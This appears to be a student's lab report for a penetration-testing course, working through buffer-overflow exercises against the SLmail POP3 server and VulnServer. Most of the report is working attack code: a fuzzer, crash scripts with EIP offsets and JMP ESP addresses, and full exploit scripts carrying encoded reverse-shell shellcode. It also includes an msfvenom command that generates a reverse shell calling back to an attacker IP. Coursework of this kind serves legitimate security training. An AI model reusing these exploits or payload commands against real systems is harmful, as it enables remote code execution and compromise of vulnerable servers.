

6.1.4 - Exercises
1. Fuzz SLmail and replicate the crash.
2. Examine the memory in the stack, when SLmail crashes. What does it look like?
Consider how this might be useful.
1.
Completed using fuzzer.py script.
#!/usr/bin/python
import socket
# Create an array of buffers, from 1 to 5900, with increments of 200.
buffer=["A"]
counter=100
while len(buffer) <= 30:
buffer.append("A"*counter)
counter=counter+200
for string in buffer:
print "Fuzzing PASS with %s bytes" % len(string)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('10.0.0.22',110))
s.recv(1024)
s.send('USER test\r\n')
s.recv(1024)
s.send('PASS ' + string + '\r\n')
s.send('QUIT\r\n')
s.close()
2. The memory in the stack is filled with the hex equivalent of many A's
(41 in hex). This occurs beginning at memory address 0220A128 in my
machine. This can be useful because it shows us where we can inject
malicious code.
7.2.3 - Exercises
1. Write a standalone script to replicate the crash.
2. Determine the offset of EIP for the data that is being sent.
3. Update your standalone script to place a unique value into EIP, to
ensure your
offsets are correct.
1. Completed using slmail-pop3.py script from lab guide.
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buffer = 'A' * 2700
try:
print "\nSending evil buffer..."
s.connect(('10.11.10.124',110))
data = s.recv(1024)
s.send('USER username' +'\r\n')
data = s.recv(1024)
s.send('PASS ' + buffer + '\r\n')
print "\nDone!."
except:
print "Could not connect to POP3!"
2.
Used "/usr/share/metasploit-framework/tools/pattern_create.rb -l 2700".
Re-ran the script. EIP held value of 39694438.
Used "/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q
39694438". Result was: Exact match at offset 2606.
3.
Updated the script with the buffer to fill EIP with four bytes of Bs.
EIP is 42424242. ESP is 020BA128 where the Cs begin.
root@:~/bufferoverflow> cat slmail-pop3.py
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buffer = "A"*2606 + "B"*4 + "C"*90
try:
print "\nSending evil buffer..."
s.connect(('10.11.10.124',110))
data = s.recv(1024)
s.send('USER username' +'\r\n')
data = s.recv(1024)
s.send('PASS ' + buffer + '\r\n')
print "\nDone!."
except:
print "Could not connect to POP3!"
root@:~/bufferoverflow>
7.4.1 - Exercises
1. Identify the bad characters that cannot be included in the payload.
2. Understand why these characters are not allowed. What does the hex
translate to
in ASCII?
1.
Bad characters include the null byte, the carriage return, and linefeed.
2. They are not allowed because they can truncate or mangle the payload.
Null - 00 in hex
Carriage Return - 0D in hex
Line Feed - 0A in hex
7.5.2 - Exercises
1. Identify a JMP ESP that is usable in the exploit.
2. Update your PoC to include the discovered JMP ESP, set a break point on
it, and
follow the execution.
1.
The SLMFC module within the Immunity Debugger is usable in the exploit.
2.
Script has been updated to include the discovered JMP ESP with a break
point set on it.
root@:~/bufferoverflow> cat slmail-pop3.py
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# # 5F4A358F FFE4 JMP ESP
buffer = "A"*2606 +"\x8f\x35\x4a\x5f" + "C"*(3500-2606-4)
try:
print "\nSending evil buffer..."
s.connect(('10.11.10.124',110))
data = s.recv(1024)
s.send('USER username' +'\r\n')
data = s.recv(1024)
s.send('PASS ' + buffer + '\r\n')
print "\nDone!."
except:
print "Could not connect to POP3!"
root@:~/bufferoverflow>
7.7.1 - Exercises
1. Update your PoC to include a working payload.
2. Obtain a shell from SLmail.
1.
root@:~/bufferoverflow> cat slmail-pop3.py
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
shellcode = ("\xba\xcb\xe7\x0e\xc5\xd9\xc3\xd9\x74\x24\xf4\x5f\x29\xc9\xb1"
"\x52\x31\x57\x12\x83\xc7\x04\x03\x9c\xe9\xec\x30\xde\x1e\x72"
"\xba\x1e\xdf\x13\x32\xfb\xee\x13\x20\x88\x41\xa4\x22\xdc\x6d"
"\x4f\x66\xf4\xe6\x3d\xaf\xfb\x4f\x8b\x89\x32\x4f\xa0\xea\x55"
"\xd3\xbb\x3e\xb5\xea\x73\x33\xb4\x2b\x69\xbe\xe4\xe4\xe5\x6d"
"\x18\x80\xb0\xad\x93\xda\x55\xb6\x40\xaa\x54\x97\xd7\xa0\x0e"
"\x37\xd6\x65\x3b\x7e\xc0\x6a\x06\xc8\x7b\x58\xfc\xcb\xad\x90"
"\xfd\x60\x90\x1c\x0c\x78\xd5\x9b\xef\x0f\x2f\xd8\x92\x17\xf4"
"\xa2\x48\x9d\xee\x05\x1a\x05\xca\xb4\xcf\xd0\x99\xbb\xa4\x97"
"\xc5\xdf\x3b\x7b\x7e\xdb\xb0\x7a\x50\x6d\x82\x58\x74\x35\x50"
"\xc0\x2d\x93\x37\xfd\x2d\x7c\xe7\x5b\x26\x91\xfc\xd1\x65\xfe"
"\x31\xd8\x95\xfe\x5d\x6b\xe6\xcc\xc2\xc7\x60\x7d\x8a\xc1\x77"
"\x82\xa1\xb6\xe7\x7d\x4a\xc7\x2e\xba\x1e\x97\x58\x6b\x1f\x7c"
"\x98\x94\xca\xd3\xc8\x3a\xa5\x93\xb8\xfa\x15\x7c\xd2\xf4\x4a"
"\x9c\xdd\xde\xe2\x37\x24\x89\x06\xc3\x26\xf2\x7f\xd1\x26\x05"
"\x3b\x5c\xc0\x6f\x2b\x09\x5b\x18\xd2\x10\x17\xb9\x1b\x8f\x52"
"\xf9\x90\x3c\xa3\xb4\x50\x48\xb7\x21\x91\x07\xe5\xe4\xae\xbd"
"\x81\x6b\x3c\x5a\x51\xe5\x5d\xf5\x06\xa2\x90\x0c\xc2\x5e\x8a"
"\xa6\xf0\xa2\x4a\x80\xb0\x78\xaf\x0f\x39\x0c\x8b\x2b\x29\xc8"
"\x14\x70\x1d\x84\x42\x2e\xcb\x62\x3d\x80\xa5\x3c\x92\x4a\x21"
"\xb8\xd8\x4c\x37\xc5\x34\x3b\xd7\x74\xe1\x7a\xe8\xb9\x65\x8b"
"\x91\xa7\x15\x74\x48\x6c\x25\x3f\xd0\xc5\xae\xe6\x81\x57\xb3"
"\x18\x7c\x9b\xca\x9a\x74\x64\x29\x82\xfd\x61\x75\x04\xee\x1b"
"\xe6\xe1\x10\x8f\x07\x20")
buffer = "A"*2606 +"\x8f\x35\x4a\x5f" + "\x90"*16 + shellcode + "C"*(3500-2606-4-351-16)
# buffer = "A"*2606 +"\x8f\x35\x4a\x5f" + "\x90"*8 + shellcode
try:
print "\nSending evil buffer..."
s.connect(('10.11.10.124',110))
data = s.recv(1024)
s.send('USER username' +'\r\n')
data = s.recv(1024)
s.send('PASS ' + buffer + '\r\n')
print "\nDone!."
except:
print "Could not connect to POP3!"
root@:~/bufferoverflow>
2.

7.8.1 - Exercises
1. Update the exploit so that SLmail still runs after exploitation.
2. In the Tools folder on the Desktop of your Windows VM, there is a
VulnServer.exe application. Using the proof of concept from the following forum
post, develop a working exploit:
o https://forums.offensive-security.com/showthread.php?t=2231
1.
Used the EXITFUNC=thread command with msfvenom to adjust the exploit:
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.187 LPORT=443 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
Revised the payload of the script with the new output.
SLmail service now continues to run after exploitation:

2.
Below is the script to exploit VulnServer:
root@:~/bufferoverflow> cat vulnserver.py
#!/usr/bin/python
import time, struct, sys
import socket as so
# Exercise from 7.8.1, pg 174 in lab guide.
try:
server = sys.argv[1]
port = 5555
except IndexError:
print "[+] Usage %s host" % sys.argv[0]
sys.exit()
#req1 = "AUTH " + "\x41"*1072
#req1 = "AUTH " + "\x41"*1040 + "\x42"*4 + "\x43"*256 # 1300 bytes total
#req1 = "AUTH " + "\x41"*1040 + "\x42"*4 + "\x43"*360
#req1 = "AUTH " + "\x41"*1040 + "\x42"*4 + badchars
# Memory Location for VulnServer JMP ESP: 65D11D71 FFE4 JMP ESP
shellcode = ("\xba\x2d\xb4\x36\x67\xda\xc6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x52\x31\x56\x12\x83\xc6\x04\x03\x7b\xba\xd4\x92\x7f\x2a\x9a"
"\x5d\x7f\xab\xfb\xd4\x9a\x9a\x3b\x82\xef\x8d\x8b\xc0\xbd\x21"
"\x67\x84\x55\xb1\x05\x01\x5a\x72\xa3\x77\x55\x83\x98\x44\xf4"
"\x07\xe3\x98\xd6\x36\x2c\xed\x17\x7e\x51\x1c\x45\xd7\x1d\xb3"
"\x79\x5c\x6b\x08\xf2\x2e\x7d\x08\xe7\xe7\x7c\x39\xb6\x7c\x27"
"\x99\x39\x50\x53\x90\x21\xb5\x5e\x6a\xda\x0d\x14\x6d\x0a\x5c"
"\xd5\xc2\x73\x50\x24\x1a\xb4\x57\xd7\x69\xcc\xab\x6a\x6a\x0b"
"\xd1\xb0\xff\x8f\x71\x32\xa7\x6b\x83\x97\x3e\xf8\x8f\x5c\x34"
"\xa6\x93\x63\x99\xdd\xa8\xe8\x1c\x31\x39\xaa\x3a\x95\x61\x68"
"\x22\x8c\xcf\xdf\x5b\xce\xaf\x80\xf9\x85\x42\xd4\x73\xc4\x0a"
"\x19\xbe\xf6\xca\x35\xc9\x85\xf8\x9a\x61\x01\xb1\x53\xac\xd6"
"\xb6\x49\x08\x48\x49\x72\x69\x41\x8e\x26\x39\xf9\x27\x47\xd2"
"\xf9\xc8\x92\x75\xa9\x66\x4d\x36\x19\xc7\x3d\xde\x73\xc8\x62"
"\xfe\x7c\x02\x0b\x95\x87\xc5\x3e\x61\x87\xae\x57\x77\x87\xd1"
"\x1c\xfe\x61\xbb\x72\x57\x3a\x54\xea\xf2\xb0\xc5\xf3\x28\xbd"
"\xc6\x78\xdf\x42\x88\x88\xaa\x50\x7d\x79\xe1\x0a\x28\x86\xdf"
"\x22\xb6\x15\x84\xb2\xb1\x05\x13\xe5\x96\xf8\x6a\x63\x0b\xa2"
"\xc4\x91\xd6\x32\x2e\x11\x0d\x87\xb1\x98\xc0\xb3\x95\x8a\x1c"
"\x3b\x92\xfe\xf0\x6a\x4c\xa8\xb6\xc4\x3e\x02\x61\xba\xe8\xc2"
"\xf4\xf0\x2a\x94\xf8\xdc\xdc\x78\x48\x89\x98\x87\x65\x5d\x2d"
"\xf0\x9b\xfd\xd2\x2b\x18\x1d\x31\xf9\x55\xb6\xec\x68\xd4\xdb"
"\x0e\x47\x1b\xe2\x8c\x6d\xe4\x11\x8c\x04\xe1\x5e\x0a\xf5\x9b"
"\xcf\xff\xf9\x08\xef\xd5")
#req1 = "AUTH " + "\x41"*1040 + "\x71\x1d\xd1\x65" + "\x43"*360
req1 = "AUTH " + "\x41"*1040 + "\x71\x1d\xd1\x65" + "\x90"*16 + shellcode + "\x43"*(400-351-16)
s = so.socket(so.AF_INET, so.SOCK_STREAM)
try:
s.connect((server, port))
print repr(s.recv(1024))
s.send(req1)
print repr(s.recv(1024))
except:
print "[!] connection refused, check debugger"
s.close()
root@:~/bufferoverflow>
Screenshot showing where in the debugger the payload works to create a reverse shell to Kali using the VulnServer service.